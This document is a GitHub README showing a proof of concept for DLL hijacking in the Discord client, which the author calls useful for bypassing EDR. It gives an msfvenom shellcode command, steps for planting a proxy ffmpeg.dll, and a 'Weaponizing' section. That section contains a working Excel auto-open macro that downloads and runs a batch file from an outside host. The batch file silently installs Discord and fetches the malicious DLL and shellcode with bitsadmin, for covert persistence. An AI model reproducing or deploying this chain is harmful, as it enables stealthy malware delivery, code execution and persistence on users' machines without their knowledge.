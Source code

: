 # Discord-DLL-Hijacking
This is a simple quick example of DLL hijacking enabling proxy execution for the Discord Binary. This can be beneficial for attackers requiring proxy execution to bypass EDR

## Note
I submitted this vuln to discord via their hackerone program. They choose to not recognize DLL hijacking unless it's related to the discord installer binary. 
Similarly to chrome: https://chromium.googlesource.com/chromium/src/+/master/docs/security/faq.md#why-arent-physically_local-attacks-in-chromes-threat-model

I understand this too an extent, but they don't seem to make any attempt to verify these DLL's or load them using best practices as directed by Microsoft: 
https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1

</br>

## What is DLL hijacking and why is it useful? 

DLL hijacking has been around a very long time. The severity of these attacks is dependent on a variety of factors, primarily application context. 
Microsoft gives a good summary: 

"When an application dynamically loads a dynamic link library (DLL) without specifying a fully qualified path, Windows tries to locate the DLL by searching a well-defined set of directories. If an attacker gains control of one of the directories, they can force the application to load a malicious copy of the DLL instead of the DLL that it was expecting. These attacks are known as “DLL preloading attacks” and are common to all operating systems that support dynamically loading shared DLL libraries. The effect of such attacks could be that an attacker can execute code in the context of the user who is running the application. When the application is being run as Administrator, this could lead to a local elevation of privilege." 

-> Source: https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1 

Why should we care? 
First off, gaining execution context under a trusted application is useful for proxy execution of malicious payloads. Pending the AV/EDR, payloads can be executed in an'trusted' context. Adversaries can also use this technique for persistence mechanisms.

Discord in some instances requires Administrator privs when Push-To-Talk is overidden by other Administrative applications. This combined with it's popularity peaked my interest.


## Analyzing with Procmon 

Doing a basic filter results in ALOT of misconfigurations for search based DLL issues. What interested me was the 'ffmpeg.dll' I noticed elsehwhere in the procmon dump. This appears to be a common DLL used by a variety of applications including whatsapp. 

![image](https://user-images.githubusercontent.com/46195001/231240214-d6421d61-a458-4104-8591-03f38f26d2d4.png)

</br> 


## Generate a payload 
Generate some shellcode to your liking. My POC: msfvenom -f raw -o pop.bin -p windows/exec cmd="cmd.exe /k whoami" exitfunc=thread --bad-chars '\x00\x20\' --smallest

## Generating a malicious DLL 

Using this great repository we can create our own DLL utilizing pragma comments to replicate functions: 
https://github.com/Flangvik/SharpDllProxy 

![dllproxy](https://user-images.githubusercontent.com/46195001/232322708-9f158799-c850-4a69-b69b-ad7372cbec1b.png)

<br> 
This will output two files, .c & an DLL 'tmpXYZ.dll'. Simply create a new DLL project in visual studio and replace the source with the output from DLLProxy. 
Once you've compiled it, copy your DLL, the tmpXYZ.dll (rename it to ffmpeg.dll) and your shellcode.bin into "C:\Users\<user>\AppData\Local\Discord\app-1.0.9012\". 

## Result 
![popped](https://user-images.githubusercontent.com/46195001/232325180-3ec3af99-d5f9-4c8c-935c-fd7d3c0ece51.png)

Running Discord.exe executes a shellode. Great! Interestingly Discord itself crashes out with no visual artifacts but our cmd.exe process remains. This is ideal if we drop discord ourselves as a persistence mechanism without user knowledge. 

## Weaponizing 
It's quite simple to weaponize this DLL hijacking in an automated fashion. Below is a basic macro that downloads a batch file to execute installing discord and download the malicious files. 

The kicker for this method: 
- Discord installs silently, no on screen artifacts. 
- Discord uses it's own scheduled task on reboot giving us code exec.
- Using ffmpeg.dll will give us code execution and crash the legitimate discord process with zero notification to the user. Likely to see WerFault & MiniDumps however. 


</br> 


### Excel Macro 

```
Private Sub Workbook_Open()

Dim url, downloadPath, batPath, shell, winHttpReq
url = "http://192.168.120.128/Update.txt"
downloadPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local\Update.bat"
batPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local"

' Create a WinHttpRequest objects
Set winHttpReq = CreateObject("WinHttp.WinHttpRequest.5.1")

' Open a connection to the specified URL
winHttpReq.Open "GET", url, False

' Send the HTTP request and download the file
winHttpReq.Send
If winHttpReq.Status = 200 Then
    Dim stream
    Set stream = CreateObject("ADODB.Stream")
    stream.Type = 1 ' Binary
    stream.Open
    stream.Write winHttpReq.ResponseBody
    stream.SaveToFile downloadPath, 2 ' Overwrite
    stream.Close
End If

' Execute the downloaded BAT file
Set shell = CreateObject("WScript.Shell")
shell.Run batPath & "\Update.bat"

Set shell = Nothing
Set winHttpReq = Nothing


End Sub
```

### Seemless discord install via .bat file. 
```
@echo off
set DOWNLOAD_URL=https://dl.discordapp.net/distro/app/stable/win/x86/1.0.9012/DiscordSetup.exe
set DOWNLOAD_DLL=http://192.168.120.128/ffmpeg.dll 
set DOWNLOAD_BIN=http://192.168.120.128/pop.bin
set DOWNLOAD_tmp=http://192.168.120.128/tmp108E.dll
set DOWNLOAD_LOCATION=C:\Windows\Temp\Update.exe
set EXECUTE_LOCATION=C:\Windows\Temp\

set COPY_LOCATION=%LOCALAPPDATA%\Discord\app-1.0.9012\
set DL_DLL=%LOCALAPPDATA%\Discord\app-1.0.9012\ffmpeg.dll
set DL_tmp=%LOCALAPPDATA%\Discord\app-1.0.9012\tmp108E.dll
set DL_bin=%LOCALAPPDATA%\Discord\app-1.0.9012\pop.bin


bitsadmin /transfer myDownloadJob /priority normal %DOWNLOAD_URL% %DOWNLOAD_LOCATION%
start "" "%EXECUTE_LOCATION%\Update.exe" --silent
timeout /t 10
bitsadmin /transfer myDownloadJob1 /priority normal %DOWNLOAD_DLL% %DL_DLL%
bitsadmin /transfer myDownloadJob2 /priority normal %DOWNLOAD_BIN% %DL_bin%
bitsadmin /transfer myDownloadJob3 /priority normal %DOWNLOAD_tmp% %DL_tmp%
```

### Result... 
Popped a shell .. :) 
 
![image](https://user-images.githubusercontent.com/46195001/232533881-7fd1d90a-1974-4672-afc6-be0f802171a1.png)




